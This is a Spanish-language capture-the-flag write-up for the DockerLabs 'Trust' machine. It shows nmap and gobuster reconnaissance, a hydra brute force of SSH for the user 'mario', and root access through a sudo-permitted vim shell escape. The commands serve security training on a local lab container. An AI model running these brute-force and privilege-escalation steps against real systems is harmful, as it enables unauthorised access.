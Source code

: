 # Write Up Trust

**Dificultad:** Super fácil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Reconocimiento
Una vez conocemos la dirección ip, realizamos un escaneo general para descubrir los puertos abiertos de una forma sigilosa y rápida.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Así descubrimos que los puertos abiertos son el puerto ssh (puerto 22) y el puerto http (puerto 80). De esta manera, con la utilidad extract ports los copiamos en el clipboard y realizamos un reconocimiento de los puertos mas exhaustivo, para descubrir el servicio que se está corriendo en dichos puertos y sus respectivas versiones

```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```
## Explotación
Viendo que está corriendo un servicio web y el servicio ssh, lo primero que haremos será recolectar información de la página web, para posteriormente acceder por ssh. Para ello añadiremos una entrada a nuestro DNS local (/etc/hosts) con el nombre de la máquina (trust) y su ip.
```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Al acceder a la web vemos que es la web por defecto de Apache Server, y que no tiene mucha información, por lo que vamos a intentar listar todos los directorios de la web mediante un ataque de fuzzing con gobuster.

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

De esta manera vemos un directorio escondido llamado secret, con extension php, que al abrirlo muestra lo siguiente:

```
Hola Mario,

Esta web no se puede hackear.
```
![alt text](../.sources/Trust-secret.png)
Así que suponemos que un posible usuario puede ser Mario.
Como no tenemos mas información, lo único que podemos hacer (o al menos lo único que se me ocurre) es hacer un ataque de fuerza bruta sobre el puerto SSH (puerto 22) mediante *hydra*, para intentar obtener las credenciales de este posible usuario.

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

Y así obtenemos la contraseña *chocolate*.

## Escalada de privilegios
Una vez dentro, hacemos el tratamiento de terminal para poder operar con comodidad

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y ahora, vemos que está instalado el comando *sudo*, por lo que vemos que comandos podemos ejecutar como sudo.

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

Así que nos otorgamos una terminal como root y bingo!

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```
